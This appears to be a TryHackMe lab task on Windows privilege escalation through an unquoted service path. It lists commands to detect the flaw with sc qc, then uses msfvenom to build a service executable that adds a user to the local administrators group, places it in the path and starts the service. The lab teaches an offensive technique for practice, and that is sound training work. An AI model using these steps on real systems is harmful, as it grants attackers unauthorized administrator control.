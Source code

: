 **Detection**  

Windows VM

1. Open command prompt and type: 
   
```
sc qc unquotedsvc
```
  
2. Notice that the “BINARY_PATH_NAME” field displays a path that is not confined between quotes.

**Exploitation**

Kali VM

1. Open command prompt and type: 
   
```
msfvenom -p windows/exec CMD='net localgroup administrators user /add' -f exe-service -o common.exe
```
  
2. Copy the generated file, common.exe, to the Windows VM.

Windows VM

1. Place common.exe in ‘C:\Program Files\Unquoted Path Service’.  
2. Open command prompt and type: 
   
```
sc start unquotedsvc
```
  
3. It is possible to confirm that the user was added to the local administrators group by typing the following in the command prompt: 
   
```
net localgroup administrators
```

For additional practice, it is recommended to attempt the TryHackMe room Steel Mountain ([https://tryhackme.com/room/steelmountain](https://tryhackme.com/room/steelmountain)).

Answer the questions below

Click 'Completed' once you have successfully elevated the machine